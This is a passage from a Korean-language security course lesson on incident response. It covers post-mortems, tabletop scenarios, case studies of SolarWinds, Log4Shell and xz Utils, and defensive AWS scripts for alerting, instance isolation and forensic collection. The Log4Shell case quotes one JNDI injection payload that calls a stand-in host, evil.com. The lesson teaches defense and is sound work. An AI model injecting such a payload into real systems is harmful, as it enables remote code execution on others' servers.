| ... | ... |

## 근본 원인 (Root Cause)
[기술적 근본 원인을 구체적으로 서술]

## 기여 요인 (Contributing Factors)
- [원인 1: 예. 오래된 라이브러리 버전 미업데이트]
- [원인 2: 예. 과도한 IAM 권한]
- [원인 3: 예. 로그 모니터링 부재]

## 잘된 점 (What Went Well)
- [예. 15분 이내 탐지]
- [예. Playbook에 따라 체계적 대응]

## 개선할 점 (What Could Be Improved)
- [예. 야간 연락망 업데이트 필요]
- [예. 포렌식 도구 사전 설치 필요]

## 액션 아이템 (Action Items)
| 항목 | 담당자 | 기한 | 우선순위 |
|------|--------|------|----------|
| IAM 최소 권한 정책 적용 | 보안팀 | 2주 | P0 |
| GuardDuty 알림 연동 강화 | SRE팀 | 1주 | P0 |
| Tabletop Exercise 실시 | 보안팀 | 1개월 | P1 |
| ... | ... | ... | ... |

## 5 Whys 분석
1. Why: 공격자가 프로덕션 DB에 접근했다
   → 서비스 계정의 IAM 권한이 과도했다
2. Why: IAM 권한이 과도했다
   → 초기 설정 이후 권한 리뷰를 하지 않았다
3. Why: 권한 리뷰를 하지 않았다
   → 정기 권한 감사 프로세스가 없었다
4. Why: 정기 감사 프로세스가 없었다
   → 보안 운영 절차가 문서화되지 않았다
5. Why: 절차가 문서화되지 않았다
   → 보안팀 인력 부족으로 우선순위에서 밀렸다

→ 근본 원인: 보안 운영 프로세스 부재 + IAM 권한 관리 체계 미흡
```

#### Post-Mortem 회의 진행 가이드

```
Post-Mortem 회의 진행 순서 (60-90분):

1. 도입 (5분)
   - Facilitator가 Blameless 원칙 리마인드
   - "오늘의 목표는 시스템을 개선하는 것이지, 누군가를 비난하는 것이 아닙니다"

2. 타임라인 리뷰 (15분)
   - Scribe가 작성한 타임라인을 순서대로 리뷰
   - 참여자들이 빠진 내용 보충

3. 근본 원인 분석 (20분)
   - 5 Whys 또는 Fishbone Diagram 활용
   - 기술적 원인 + 프로세스 원인 모두 분석

4. 잘된 점 / 개선할 점 (15분)
   - 각자 포스트잇(또는 Miro 보드)에 작성
   - 그룹핑 후 토론

5. 액션 아이템 도출 (15분)
   - 각 개선점에 대한 구체적 액션
   - 담당자 + 기한 즉시 배정
   - P0/P1/P2 우선순위 설정

6. 마무리 (5분)
   - 액션 아이템 리뷰
   - 다음 추적 회의 일정 잡기
   - Post-Mortem 문서 공개 범위 결정
```

---

### Tabletop Exercise (도상 훈련)

> **비유**: 군대에서 실제 전투 전에 모래판 위에서 하는 작전 시뮬레이션이에요

#### Tabletop Exercise란?

```
Tabletop Exercise = 책상 위 시뮬레이션

실제 시스템을 건드리지 않고, 가상 시나리오를 기반으로
"만약 이런 사고가 발생하면 우리는 어떻게 대응할까?"를
팀원들이 모여서 토론하는 훈련이에요.

목적:
✅ IR Plan과 Playbook의 실효성 검증
✅ 팀원 간 역할과 소통 체계 점검
✅ 대응 절차의 빈틈 발견
✅ 실전 감각 유지 (실제 사고는 안 자주 오니까)
```

#### 시나리오 예시

```
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
시나리오 1: 공급망 공격
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

상황:
금요일 오후 6시, 퇴근 직전. 보안팀에 외부 연구자로부터
이메일이 도착합니다. "귀사가 사용하는 npm 패키지
'popular-lib'의 최신 버전(3.2.1)에 백도어가 삽입된 것을
발견했습니다. 이 버전은 3일 전에 릴리스되었습니다."

질문:
1. 가장 먼저 할 일은 무엇인가요?
2. 우리 시스템이 영향을 받았는지 어떻게 확인하나요?
3. 금요일 저녁인데, 누구에게 연락해야 하나요?
4. 고객에게 언제, 어떻게 알려야 하나요?
5. 이미 3일간 백도어가 활성화되었다면 어떤 데이터가 유출되었을까요?

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
시나리오 2: 랜섬웨어
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

상황:
월요일 아침 9시, 직원들이 출근해서 사내 시스템에 접속하자
"Your files have been encrypted" 메시지가 표시됩니다.
프로덕션 서비스는 아직 정상이지만, 내부 Git 서버와
Jenkins CI/CD가 감염되었습니다.

질문:
1. 프로덕션도 감염될 가능성은? 어떻게 확인하나요?
2. 배포 파이프라인이 죽었는데, 핫픽스가 필요하면 어떻게 하나요?
3. 랜섬 비용을 지불해야 할까요?
4. 백업에서 복구할 수 있나요? 백업도 감염되었을 가능성은?

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
시나리오 3: 내부자 위협
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

상황:
퇴사 예정인 엔지니어가 지난 2주간 비정상적으로 많은
S3 버킷 데이터를 다운로드한 것이 CloudTrail 로그에서
발견되었습니다. 이 엔지니어는 고객 데이터에 대한
정당한 접근 권한을 가지고 있었습니다.

질문:
1. 현재 시점에서 어떤 조치를 취해야 하나요?
2. HR과 법무팀은 언제 개입해야 하나요?
3. "정당한 접근 권한"이 있었다면 이것이 보안 사고인가요?
4. 향후 이런 상황을 예방하려면 어떤 통제가 필요한가요?
```

---

### 보안 사고 사례 분석

실제 사례를 분석하면 "이런 일이 진짜 일어나는구나"를 체감할 수 있어요.

#### 사례 1: SolarWinds Supply Chain Attack (2020)

```
SolarWinds 사태 — 역사상 가장 정교한 공급망 공격

📅 타임라인:
2019.10  공격자가 SolarWinds 빌드 시스템에 침투
2020.03  악성 코드가 포함된 Orion 업데이트 배포 (v2020.2)
2020.12  FireEye가 자사 해킹 조사 중 SolarWinds 공격 발견
         → 약 9개월간 공격이 탐지되지 않음 (Dwell Time)

🎯 공격 방법:
1. SolarWinds의 CI/CD 빌드 파이프라인에 침투
2. Orion 소프트웨어의 소스 코드에 백도어(SUNBURST) 삽입
3. 정상적인 소프트웨어 업데이트를 통해 18,000개 이상의 조직에 배포
4. 목표 조직(미국 정부기관 등)에서만 활성화되는 조건부 실행

💡 교훈:
• 소프트웨어 공급망 전체가 공격 표면이 될 수 있어요
• CI/CD 파이프라인 보안이 코드 보안만큼 중요해요
• 서명된 업데이트도 맹목적으로 신뢰하면 안 돼요
• 네트워크 모니터링과 이상 행위 탐지가 핵심이에요
• Dwell Time을 줄이는 것이 피해를 줄이는 핵심이에요

🔧 대응 방안:
• SBOM(Software Bill of Materials) 관리
• 빌드 파이프라인 무결성 검증 (SLSA Framework)
• Zero Trust Architecture 적용
• 공급업체 보안 감사 강화
```

#### 사례 2: Log4Shell (CVE-2021-44228, 2021)

```
Log4Shell — "인터넷의 체르노빌"이라 불린 취약점

📅 타임라인:
2021.11.24  Alibaba Cloud 보안팀이 Apache에 비공개 보고
2021.12.09  PoC(Proof of Concept) 공개 → 전 세계 공격 시작
2021.12.10  Apache Log4j 2.15.0 패치 릴리스
2021.12.14  2.15.0도 불완전 → 2.16.0 릴리스
2021.12.28  추가 취약점 발견 → 2.17.1 릴리스

🎯 취약점:
• Apache Log4j 2.x의 JNDI Lookup 기능 악용
• 공격자가 로그에 기록되는 문자열에 "${jndi:ldap://evil.com/a}" 삽입
• 서버가 이 문자열을 처리하면서 외부 악성 서버에 연결
• 원격 코드 실행(RCE) 가능 → CVSS 10.0 (최고 위험도)

🌊 영향 범위:
• Java를 사용하는 거의 모든 서비스에 영향 (수억 개 시스템)
• Minecraft, AWS, Apple iCloud, Twitter 등 글로벌 서비스
• "User-Agent" 헤더에 공격 코드를 넣는 것만으로도 공격 가능

💡 교훈:
• 의존성 관리와 SBOM의 중요성 (우리 시스템에 Log4j가 있는지 파악)
• 보안 패치의 신속한 적용 체계 필요
• WAF 같은 다층 방어(Defense in Depth)의 가치
• 간접 의존성(transitive dependency)까지 파악해야 해요
• "어디에 Log4j가 쓰이는지 모른다"가 가장 큰 문제였어요

🔧 대응 방안:
• SCA(Software Composition Analysis) 도구 도입
• 의존성 자동 업데이트 파이프라인 (Dependabot, Renovate)
• 런타임 보호 (RASP)
• 네트워크 이그레스(egress) 제어
```

#### 사례 3: xz Utils Backdoor (CVE-2024-3094, 2024)

```
xz Utils 백도어 — 오픈소스 신뢰를 흔든 사건

📅 타임라인:
2021~2022  "Jia Tan"이라는 개발자가 xz 프로젝트에 기여 시작
2023       기존 메인테이너의 번아웃을 틈타 공동 메인테이너 권한 획득
2024.02    xz 5.6.0, 5.6.1에 백도어 삽입
2024.03.29 Andres Freund(MS 엔지니어)가 SSH 로그인 지연 조사 중 발견
           → 0.5초의 지연이 단서가 되어 백도어 발견!

🎯 공격 방법:
1. 수년간 정상적인 오픈소스 기여로 신뢰 획득 (Social Engineering)
2. 테스트 파일(binary)에 난독화된 백도어 코드 숨김
3. 빌드 과정에서만 활성화되도록 autoconf 매크로 조작
4. sshd(OpenSSH)가 liblzma를 로드할 때 인증을 우회하는 백도어
5. 특정 SSH 키를 가진 공격자만 인증 없이 접속 가능

💡 교훈:
• 오픈소스 메인테이너 번아웃이 보안 위협이 될 수 있어요
• 코드 리뷰만으로는 정교한 공격을 막기 어려워요
• "이상한 느낌" (0.5초 지연)을 무시하지 않는 엔지니어링 문화의 가치
• 재현 가능한 빌드(Reproducible Build)의 중요성
• 공급망 공격이 점점 정교해지고 있어요

🔧 대응 방안:
• 오픈소스 의존성 보안 감사 강화
• Reproducible Build 검증
• 메인테이너 다양성 확보 (단일 포인트 의존 방지)
• SLSA Level 3+ 빌드 보안
```

#### 사례 비교 요약

```
┌─────────────┬──────────────┬──────────────┬──────────────┐
│             │ SolarWinds   │ Log4Shell    │ xz Utils     │
├─────────────┼──────────────┼──────────────┼──────────────┤
│ 공격 유형    │ 공급망 공격   │ 취약점 악용   │ 공급망 공격   │
│ 공격 기간    │ ~9개월       │ 수시간~수주   │ ~2년 준비     │
│ 발견 방법    │ 보안업체 조사 │ 보안팀 보고   │ 성능 이상 감지│
│ 영향 범위    │ 18,000+ 조직 │ 수억 시스템   │ 거의 배포 전  │
│ 핵심 교훈    │ CI/CD 보안   │ 의존성 관리   │ 오픈소스 신뢰│
│ CVSS        │ N/A          │ 10.0         │ 10.0         │
└─────────────┴──────────────┴──────────────┴──────────────┘
```

---

## 💻 직접 해보기

### 실습 1: AWS GuardDuty 설정 및 알림 연동

```bash
#!/bin/bash
# guardduty-setup.sh
# GuardDuty 활성화 + SNS 알림 연동

# 1. GuardDuty 활성화
echo "=== GuardDuty 활성화 ==="
DETECTOR_ID=$(aws guardduty create-detector \
  --enable \
  --finding-publishing-frequency FIFTEEN_MINUTES \
  --query 'DetectorId' \
  --output text)

echo "Detector ID: $DETECTOR_ID"

# 2. SNS 토픽 생성 (알림용)
echo "=== SNS 토픽 생성 ==="
TOPIC_ARN=$(aws sns create-topic \
  --name guardduty-alerts \
  --query 'TopicArn' \
  --output text)

echo "Topic ARN: $TOPIC_ARN"

# 이메일 구독 추가
aws sns subscribe \
  --topic-arn "$TOPIC_ARN" \
  --protocol email \
  --notification-endpoint security-team@company.com

# 3. EventBridge 규칙으로 GuardDuty → SNS 연동
echo "=== EventBridge 규칙 생성 ==="
aws events put-rule \
  --name guardduty-high-severity \
  --event-pattern '{
    "source": ["aws.guardduty"],
    "detail-type": ["GuardDuty Finding"],
    "detail": {
      "severity": [{"numeric": [">=", 7]}]
    }
  }' \
  --state ENABLED

aws events put-targets \
  --rule guardduty-high-severity \
  --targets "Id"="1","Arn"="$TOPIC_ARN"

echo "=== 설정 완료 ==="
echo "GuardDuty가 심각도 7 이상의 위협을 탐지하면 이메일로 알려줘요"
```

### 실습 2: 자동 격리 Lambda 함수

```python
# lambda_auto_isolate.py
# GuardDuty가 EC2 관련 위협을 탐지하면 자동으로 격리하는 Lambda

import json
import boto3
import logging
from datetime import datetime

logger = logging.getLogger()
logger.setLevel(logging.INFO)

ec2 = boto3.client('ec2')
sns = boto3.client('sns')

# 격리용 Security Group ID (사전에 만들어둬야 해요)
ISOLATION_SG_ID = 'sg-isolation-id'
ALERT_TOPIC_ARN = 'arn:aws:sns:ap-northeast-2:123456789012:security-alerts'


def lambda_handler(event, context):
    """
    GuardDuty Finding을 받아서 EC2 인스턴스를 자동 격리해요.
    """
    logger.info(f"Received event: {json.dumps(event)}")

    detail = event.get('detail', {})
    finding_type = detail.get('type', '')
    severity = detail.get('severity', 0)

    # EC2 관련 고위험 Finding만 처리
    if 'EC2' not in finding_type or severity < 7:
        logger.info(f"Skipping: type={finding_type}, severity={severity}")
        return {'statusCode': 200, 'body': 'Skipped - not high severity EC2'}

    # 영향 받은 인스턴스 ID 추출
    resource = detail.get('resource', {})
    instance_id = resource.get('instanceDetails', {}).get('instanceId')

    if not instance_id:
        logger.error("No instance ID found in finding")
        return {'statusCode': 400, 'body': 'No instance ID'}

    logger.info(f"Isolating instance: {instance_id}")

    try:
        # 1. 현재 Security Group 기록 (복구 시 필요)
        instance = ec2.describe_instances(InstanceIds=[instance_id])
        current_sgs = [
            sg['GroupId']
            for sg in instance['Reservations'][0]['Instances'][0]['SecurityGroups']
        ]

        # 태그로 원래 SG 정보 저장
        ec2.create_tags(
            Resources=[instance_id],
            Tags=[
                {
                    'Key': 'OriginalSecurityGroups',
                    'Value': ','.join(current_sgs)
                },
                {
                    'Key': 'IsolatedAt',
                    'Value': datetime.utcnow().isoformat()
                },
                {
                    'Key': 'IsolationReason',
                    'Value': finding_type
                }
            ]
        )

        # 2. 격리용 Security Group으로 교체
        ec2.modify_instance_attribute(
            InstanceId=instance_id,
            Groups=[ISOLATION_SG_ID]
        )

        # 3. 알림 전송
        message = f"""
        [보안 자동 격리 알림]

        인스턴스 ID: {instance_id}
        위협 유형: {finding_type}
        심각도: {severity}
        격리 시각: {datetime.utcnow().isoformat()} UTC
        이전 Security Groups: {current_sgs}

        자동으로 격리되었습니다. 포렌식 분석을 시작해주세요.
        """

        sns.publish(
            TopicArn=ALERT_TOPIC_ARN,
            Subject=f'[SEV1] EC2 자동 격리: {instance_id}',
            Message=message
        )

        logger.info(f"Successfully isolated {instance_id}")
        return {
            'statusCode': 200,
            'body': f'Isolated {instance_id}'
        }

    except Exception as e:
        logger.error(f"Failed to isolate {instance_id}: {str(e)}")

        # 격리 실패 시에도 알림 전송
        sns.publish(
            TopicArn=ALERT_TOPIC_ARN,
            Subject=f'[CRITICAL] EC2 격리 실패: {instance_id}',
            Message=f'자동 격리에 실패했습니다. 수동 조치가 필요합니다.\n에러: {str(e)}'
        )

        raise
```

### 실습 3: 포렌식 증거 수집 자동화 스크립트

```bash
#!/bin/bash
# forensic-collect.sh
# 사고 발생 시 증거를 자동 수집하는 스크립트

set -euo pipefail

# === 설정 ===
CASE_ID="${1:?Usage: $0 <case-id> <instance-id>}"
INSTANCE_ID="${2:?Usage: $0 <case-id> <instance-id>}"
EVIDENCE_BUCKET="forensic-evidence-${AWS_ACCOUNT_ID}"
TIMESTAMP=$(date -u +"%Y%m%dT%H%M%SZ")
PREFIX="cases/${CASE_ID}/${TIMESTAMP}"

echo "=== 포렌식 증거 수집 시작 ==="
echo "Case ID: $CASE_ID"
echo "Instance: $INSTANCE_ID"
echo "Timestamp: $TIMESTAMP"
echo ""

# 1. 인스턴스 메타데이터 수집
echo "[1/5] 인스턴스 메타데이터 수집..."
aws ec2 describe-instances \
  --instance-ids "$INSTANCE_ID" \
  > "/tmp/${CASE_ID}-instance-metadata.json"

aws s3 cp "/tmp/${CASE_ID}-instance-metadata.json" \
  "s3://${EVIDENCE_BUCKET}/${PREFIX}/instance-metadata.json"

# 2. EBS 스냅샷 생성
echo "[2/5] EBS 스냅샷 생성..."
VOLUME_IDS=$(aws ec2 describe-instances \
  --instance-ids "$INSTANCE_ID" \
  --query 'Reservations[0].Instances[0].BlockDeviceMappings[*].Ebs.VolumeId' \
  --output text)

for VOL_ID in $VOLUME_IDS; do
  echo "  Creating snapshot for $VOL_ID..."
  SNAP_ID=$(aws ec2 create-snapshot \
    --volume-id "$VOL_ID" \
    --description "Forensic-${CASE_ID}-${VOL_ID}" \
    --tag-specifications "ResourceType=snapshot,Tags=[
      {Key=CaseId,Value=${CASE_ID}},
      {Key=Purpose,Value=Forensics},
      {Key=SourceInstance,Value=${INSTANCE_ID}},
      {Key=CollectedAt,Value=${TIMESTAMP}}
    ]" \
    --query 'SnapshotId' \
    --output text)
  echo "  Snapshot ID: $SNAP_ID"
done

# 3. CloudTrail 이벤트 수집 (최근 24시간)
echo "[3/5] CloudTrail 이벤트 수집..."
aws cloudtrail lookup-events \
  --start-time "$(date -u -d '24 hours ago' +%Y-%m-%dT%H:%M:%SZ)" \
  --end-time "$(date -u +%Y-%m-%dT%H:%M:%SZ)" \
  --max-results 1000 \
  > "/tmp/${CASE_ID}-cloudtrail.json"

aws s3 cp "/tmp/${CASE_ID}-cloudtrail.json" \
  "s3://${EVIDENCE_BUCKET}/${PREFIX}/cloudtrail-events.json"

# 4. VPC Flow Logs 수집
echo "[4/5] VPC Flow Logs 수집..."
VPC_ID=$(aws ec2 describe-instances \
  --instance-ids "$INSTANCE_ID" \
  --query 'Reservations[0].Instances[0].VpcId' \
  --output text)

aws logs filter-log-events \
  --log-group-name "/aws/vpc/flowlogs/${VPC_ID}" \
  --start-time "$(date -u -d '24 hours ago' +%s)000" \
  --end-time "$(date -u +%s)000" \
  > "/tmp/${CASE_ID}-flowlogs.json" 2>/dev/null || echo "  Flow Logs 없거나 접근 불가"

aws s3 cp "/tmp/${CASE_ID}-flowlogs.json" \
  "s3://${EVIDENCE_BUCKET}/${PREFIX}/vpc-flowlogs.json" 2>/dev/null || true

# 5. 메모리 덤프 (SSM을 통해)
echo "[5/5] 메모리 덤프 수집 시도..."
aws ssm send-command \
  --instance-ids "$INSTANCE_ID" \
  --document-name "AWS-RunShellScript" \
  --parameters "commands=[
    'if [ -f /opt/avml/avml ]; then sudo /opt/avml/avml /tmp/memory.lime && aws s3 cp /tmp/memory.lime s3://${EVIDENCE_BUCKET}/${PREFIX}/memory.lime; else echo AVML not installed; fi'
  ]" \
  --comment "Forensic memory dump - ${CASE_ID}" \
  2>/dev/null || echo "  SSM 연결 불가 (격리된 인스턴스일 수 있음)"

# 증거 목록 생성
echo ""
echo "=== 수집 완료 ==="
echo "증거 위치: s3://${EVIDENCE_BUCKET}/${PREFIX}/"
aws s3 ls "s3://${EVIDENCE_BUCKET}/${PREFIX}/" 2>/dev/null || echo "(업로드 진행 중)"

# 해시값 기록
echo ""
echo "=== 증거 해시값 (무결성 검증용) ==="
for f in /tmp/${CASE_ID}-*.json; do
  sha256sum "$f" 2>/dev/null || true
done

# 임시 파일 정리
rm -f /tmp/${CASE_ID}-*.json

echo ""
echo "다음 단계: 포렌식 계정에서 증거를 분석해주세요."
```

### 실습 4: Security Hub 통합 대시보드 쿼리

```bash
# Security Hub에서 현재 보안 현황 조회

# 심각도별 Finding 수 조회
echo "=== 심각도별 보안 이슈 현황 ==="
for severity in CRITICAL HIGH MEDIUM LOW; do
  COUNT=$(aws securityhub get-findings \
    --filters "{
      \"SeverityLabel\": [{\"Value\": \"$severity\", \"Comparison\": \"EQUALS\"}],
      \"WorkflowStatus\": [{\"Value\": \"NEW\", \"Comparison\": \"EQUALS\"}]
    }" \
    --query 'length(Findings)' \
    --output text 2>/dev/null || echo "0")
  echo "$severity: $COUNT"
done

# CRITICAL Finding 상세 조회
echo ""
echo "=== CRITICAL 이슈 상세 ==="
aws securityhub get-findings \
  --filters '{
    "SeverityLabel": [{"Value": "CRITICAL", "Comparison": "EQUALS"}],
    "WorkflowStatus": [{"Value": "NEW", "Comparison": "EQUALS"}]
  }' \
  --max-items 5 \
  --query 'Findings[*].{Title:Title,Resource:Resources[0].Id,Created:CreatedAt}'
```

---

## 🏢 실무에서는?

### 스타트업 (10-50명) — "최소한의 체계라도 갖추기"

```
스타트업 IR 체계:

1. IR Plan: 1페이지 요약 + 연락망
   → Google Docs에 간단하게라도 작성
   → "누가 Incident Commander인가?" 이것만이라도 정해두기

2. CSIRT: 보안 챔피언 모델
   → 각 팀에서 1명이 보안 담당 겸임
   → 사고 시 SlackBot으로 자동 소집

3. 도구:
   → AWS GuardDuty (무료 30일 → 월 몇 달러)
   → CloudTrail (기본 활성화)
   → Slack #incident 채널

4. 훈련:
   → 분기 1회 간단한 Tabletop (30분)
   → "만약 AWS 키가 GitHub에 노출되면?" 같은 시나리오

비용: 거의 0원 (기존 도구 활용)
시간: 초기 설정 하루, 유지 월 2시간
```

### 중견기업 (50-500명) — "체계적인 프로세스 구축"

```
중견기업 IR 체계:

1. IR Plan: 완전한 문서 + 유형별 Playbook 5-10개
   → Confluence/Notion에 체계적으로 관리
   → 분기마다 리뷰 및 업데이트

2. CSIRT: 소규모 전담팀 (2-3명) + 확장 멤버
   → 보안팀이 코어, 필요 시 개발/인프라팀 합류
   → PagerDuty로 On-call 로테이션

3. 도구:
   → SIEM (Datadog Security / Elastic SIEM)
   → AWS GuardDuty + Security Hub + Detective
   → PagerDuty + Slack 연동
   → 포렌식 도구 기본 세트

4. 훈련:
   → 월 1회 Tabletop Exercise (1시간)
   → 분기 1회 실전 모의훈련
   → 연 1회 외부 업체 모의 침투 테스트

5. Post-Mortem:
   → 모든 SEV1/2 사고에 대해 의무적으로 실시
   → 액션 아이템 추적 (Jira)

비용: 월 $2,000-$10,000
시간: 전담 인력 2-3명
```

### 대기업/금융 (500명+) — "24/7 SOC 운영"

```
대기업 IR 체계:

1. IR Plan: 규제 준수 포함, 법무팀 검토 완료
   → ISO 27001, ISMS-P 인증 기반
   → 매년 외부 감사

2. CSIRT + SOC: 전담 보안 조직 (10명+)
   → SOC 24/7 모니터링
   → CSIRT는 사고 대응 전담
   → Red Team / Blue Team 운영

3. 도구:
   → Enterprise SIEM (Splunk, QRadar)
   → SOAR (Security Orchestration, Automation and Response)
   → EDR (CrowdStrike, Carbon Black)
   → 전문 포렌식 도구 (EnCase, FTK)
   → AWS 전체 보안 서비스 + 3rd party

4. 훈련:
   → 주 1회 보안팀 내부 훈련
   → 월 1회 전사 Tabletop
   → 분기 1회 대규모 모의 훈련 (Red Team 침투)
   → 연 1회 전사 보안 인식 교육

5. 규제 대응:
   → KISA 신고 체계 (24시간 이내)
   → 개인정보보호법 준수 (72시간 이내 통지)
   → 금융감독원 보고 체계

비용: 연 수억~수십억 원
인력: 전담 보안 조직 10-50명+
```

### 규모별 도구 비교

```
┌──────────────┬──────────────┬──────────────┬──────────────┐
│ 도구 유형     │ 스타트업      │ 중견기업      │ 대기업       │
├──────────────┼──────────────┼──────────────┼──────────────┤
│ 탐지          │ GuardDuty    │ GuardDuty    │ Enterprise   │
│              │              │ + SIEM       │ SIEM + SOAR  │
├──────────────┼──────────────┼──────────────┼──────────────┤
│ 알림          │ Slack        │ PagerDuty    │ PagerDuty +  │
│              │              │ + Slack      │ 전용 핫라인   │
├──────────────┼──────────────┼──────────────┼──────────────┤
│ 포렌식        │ CloudTrail   │ CloudTrail   │ EnCase/FTK   │
│              │ + 수동       │ + Detective  │ + 전문팀     │
├──────────────┼──────────────┼──────────────┼──────────────┤
│ 소통          │ Slack        │ Slack +      │ 전용 War     │
│              │              │ 화상회의     │ Room 시스템  │
├──────────────┼──────────────┼──────────────┼──────────────┤
│ 문서          │ Google Docs  │ Confluence   │ 전용 IR      │
│              │              │ + Jira       │ 플랫폼       │
└──────────────┴──────────────┴──────────────┴──────────────┘
```

---

## ⚠️ 자주 하는 실수

### 실수 1: IR Plan이 있지만 아무도 모른다

```
❌ 잘못된 예:
"IR Plan을 2년 전에 작성했는데, 작성자는 퇴사했고,
 팀원 중 누구도 읽어본 적이 없어요"

→ 사고가 터지면 아무도 IR Plan의 존재를 모르고 패닉

✅ 올바른 방법:
• 분기마다 IR Plan 리뷰 미팅 (30분이면 충분)
• 신규 입사자 온보딩에 IR Plan 포함
• Tabletop Exercise를 통해 자연스럽게 Plan을 익히기
• IR Plan 위치를 Slack pinned message에 고정
```

### 실수 2: 사고 발생 시 증거를 파괴한다

```
❌ 잘못된 예:
"서버가 해킹당한 것 같아서 빨리 재시작했어요"
"악성 파일을 발견해서 바로 삭제했어요"
"디스크 공간이 부족해서 로그를 정리했어요"

→ 포렌식에 필요한 증거가 전부 사라짐

✅ 올바른 방법:
• 감염 의심 서버: 재시작하지 말고, 격리 후 메모리 덤프 먼저
• 악성 파일: 삭제하지 말고, 해시값 기록 후 격리된 스토리지에 보관
• 로그: 사고 관련 기간의 로그는 별도 보전
• 원칙: "원본은 절대 건드리지 않는다"
```

### 실수 3: 격리 범위가 너무 넓거나 좁다

```
❌ 너무 넓은 격리:
"보안 사고가 발생해서 프로덕션 서버 전체를 내렸어요"
→ 감염 안 된 서비스까지 중단, 비즈니스 피해 극대화

❌ 너무 좁은 격리:
"감염된 서버 1대만 격리했는데, 이미 옆 서버로 퍼졌어요"
→ 불완전한 격리로 피해 확산

✅ 올바른 방법:
• 영향 범위를 먼저 파악 (네트워크 세그먼트, 접근 경로)
• 의심 범위보다 약간 넓게 격리 (안전 마진)
• 격리 후 모니터링으로 범위를 정밀하게 조정
• 핵심: "비즈니스 영향을 최소화하면서 확산을 막는 균형"
```

### 실수 4: Blame Culture로 Post-Mortem 운영

```
❌ 잘못된 예:
"김 대리가 새벽에 잘못된 설정을 배포해서 이번 사고가 발생했습니다"
→ 다음부터 김 대리는 실수를 숨기고, 다른 사람들도 보고를 꺼림

✅ 올바른 방법:
"새벽 배포 시 설정 검증 자동화가 없어서 잘못된 설정이 프로덕션에 반영되었습니다"
→ 시스템 개선에 집중, 자동 검증 파이프라인 추가
→ 다음부터 팀원들이 실수를 적극적으로 공유하는 문화 형성

핵심 원칙:
"사람은 실수할 수 있다. 시스템이 실수를 허용하지 않도록 만들자."
```

### 실수 5: Post-Mortem 액션 아이템을 추적하지 않는다

```
❌ 잘못된 예:
"Post-Mortem 회의를 잘 했는데, 액션 아이템 10개 중
 실제로 완료된 건 2개뿐이에요. 3개월 후 같은 사고 재발."

✅ 올바른 방법:
• 모든 액션 아이템을 Jira/Linear 티켓으로 생성
• P0 액션은 다음 스프린트에 반드시 포함
• 주간 미팅에서 진행 상황 추적
• 완료될 때까지 Post-Mortem 문서를 "Open" 상태로 유지
• "Post-Mortem 완료율"을 팀 KPI에 포함
```

### 실수 6: Tabletop Exercise를 안 한다

```
❌ 잘못된 예:
"IR Plan도 있고, 도구도 갖춰놨는데 한 번도 훈련을 안 했어요"
→ 실제 사고 시: "이 Playbook... 어떻게 쓰는 거였지?"

✅ 올바른 방법:
• 월 1회 30분~1시간 Tabletop Exercise
• 시나리오를 매번 다르게 (랜섬웨어, 데이터 유출, DDoS...)
• 새로운 팀원이 합류하면 바로 참여
• 훈련 결과를 IR Plan에 반영 (빈틈 발견 → 수정)
```

---

## 📝 마무리

### 핵심 요약

```
보안 사고 대응의 6단계:

┌─────────────────────────────────────────────────────┐
│  1. Preparation    → 계획, 팀, 도구, 훈련을 미리 준비  │
│  2. Detection      → 빠르게 탐지하고 정확히 분석       │
│  3. Containment    → 피해 확산을 즉시 차단              │
│  4. Eradication    → 근본 원인을 완전히 제거            │
│  5. Recovery       → 안전하게 정상 상태로 복구          │
│  6. Lessons Learned → 배우고 개선하여 더 강해지기       │
└─────────────────────────────────────────────────────┘

기억할 핵심 원칙:
• 준비가 80%다 — 사고가 터진 뒤에는 배울 시간이 없어요
• 증거를 보전하라 — 원본을 건드리면 포렌식이 불가능해요
• 소통이 절반이다 — 기술 대응만큼 소통 계획이 중요해요
• 비난하지 말라 — Blameless Culture가 조직을 강하게 해요
• 훈련하라 — 연습 없는 계획은 종이쪽지에 불과해요
```

### IR 성숙도 자가 진단 체크리스트

```
당신의 팀은 몇 개나 해당되나요?

기본 (Level 1-2):
□ IR Plan 문서가 존재한다
□ 사고 발생 시 연락할 사람이 정해져 있다
□ CloudTrail이 활성화되어 있다
□ GuardDuty가 활성화되어 있다
□ 사고 심각도 분류 기준이 있다

중급 (Level 3):
□ 유형별 Playbook이 3개 이상 있다
□ 분기 1회 이상 Tabletop Exercise를 한다
□ Post-Mortem 문서 템플릿이 있다
□ 격리용 Security Group이 미리 만들어져 있다
□ 포렌식 증거 수집 절차가 문서화되어 있다
□ 외부 소통 템플릿이 준비되어 있다

고급 (Level 4):
□ SIEM이 운영되고 있다
□ 자동화된 대응(SOAR/Lambda)이 구축되어 있다
□ 포렌식 전용 계정/환경이 있다
□ Red Team / Blue Team 훈련을 한다
□ Post-Mortem 액션 아이템 완료율을 추적한다
□ IR 관련 메트릭(MTTD, MTTR)을 측정한다
□ 외부 포렌식 업체와 계약이 되어 있다

0-4개: 시작 단계 → IR Plan부터 만드세요
5-8개: 기본 갖춤 → Playbook과 훈련에 집중하세요
9-12개: 체계적 → 자동화와 메트릭에 집중하세요
13개+: 성숙 단계 → 지속적 개선에 집중하세요
```

### 전체 IR 워크플로우 한눈에 보기



---

## 🔗 다음 강의

🎉 **09-Security 카테고리 완료!**

7개 강의를 통해 인증/인가, 시크릿 관리, 컨테이너 보안, 네트워크 보안, 컴플라이언스, DevSecOps, 그리고 보안 사고 대응까지 — 보안의 전체 라이프사이클을 다뤘어요.

다음은 **[10-sre/01-principles — SRE 원칙](../10-sre/01-principles)** 으로 넘어가요.

사고 대응에서 배운 Post-Mortem 문화와 MTTD/MTTR이 SRE의 SLO/Error Budget과 어떻게 연결되는지 알게 될 거예요!

### 이어서 학습할 내용

```
학습 로드맵:

현재 위치
    ↓
┌─────────────────────────────────────────────┐
│ ✅ 09-07. 보안 사고 대응 (현재)              │
│    Incident Response, Forensics, War Room   │
│    Post-Mortem, 사례 분석                    │
└─────────────────────────────────────────────┘
    ↓
┌─────────────────────────────────────────────┐
│ 📖 10-01. SRE 원칙                           │
│    → 사고 대응에서 배운 교훈이 SRE의 핵심     │
